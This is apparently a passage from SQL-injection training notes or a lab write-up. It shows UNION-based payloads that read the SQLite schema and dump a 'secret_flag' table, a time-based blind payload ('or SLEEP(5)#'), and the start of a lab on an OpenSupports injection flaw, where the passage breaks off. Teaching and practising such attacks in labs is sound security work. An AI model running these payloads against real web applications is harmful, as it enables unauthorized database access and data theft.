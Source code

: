 With that query we can see how the table has been created.

```sql
' union select 1,2,sql,4,5 from sqlite_master-- - 
```

![Alt text](ch5_page_images/image-89.png)

For list the content in the table us this.

```sql
' union select 1,2,flag,value,5 from secret_flag-- -
```
![Alt text](ch5_page_images/image-90.png)

## Blind SQL Injection

1. Boolean-Based SQL Injection payloads can be used for both In-Band and Blind-Based SQL Injection attacks.

2. This SQL injection **`or SLEEP(5)#`** will delay the web application's response by 5 seconds.

### **LABORATORY 1**. OpenSupports

**Objective**: Your task is to find and exploit this vulnerability.

We search the name of the frameware in google adding expoit and we found a SQLi vulnerability.
